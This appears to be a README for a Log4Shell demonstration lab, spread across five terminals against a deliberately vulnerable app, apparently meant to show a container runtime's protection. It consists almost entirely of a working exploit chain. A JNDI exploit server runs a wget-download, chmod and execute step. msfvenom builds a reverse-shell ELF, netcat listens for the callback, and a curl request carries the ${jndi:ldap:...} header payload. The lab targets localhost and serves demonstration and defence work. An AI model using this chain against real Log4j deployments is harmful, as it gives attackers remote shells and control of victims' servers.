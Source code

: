 # Build
```
make docker
```

# Terminal 1 (JNDI Exploit Server)
```
docker run --network=host --rm log4jshell/jndi_exploit_kit

# which starts:
# java -jar ./target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "wget http://127.0.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf"
```

# Terminal 2 (Vulnerable App)
```
# run vulnerable app
docker run --rm --network=host vulnerable-app

or
# or with Kontain
docker run --rm --runtime=krun --network=host log4jshell/vulnerable-app-kontain

# which exploits:
# logger.info("Received a request for API version " + apiVersion);
```

# Terminal 3 (Dialback Server)
```
# runs: msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o /tmp/rev.elf

cd /tmp
./msfvenom.sh
python3 -m http.server 8082
```

# Terminal 4 (Listening for attack)
```
# ncat receiving dialback
nc -lvnp 4444
```

# Terminal 5 (Send attack command to the Vulnerable App)
```
# curl attack command

curl 127.0.0.2:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1:1389/xqinla}'
```
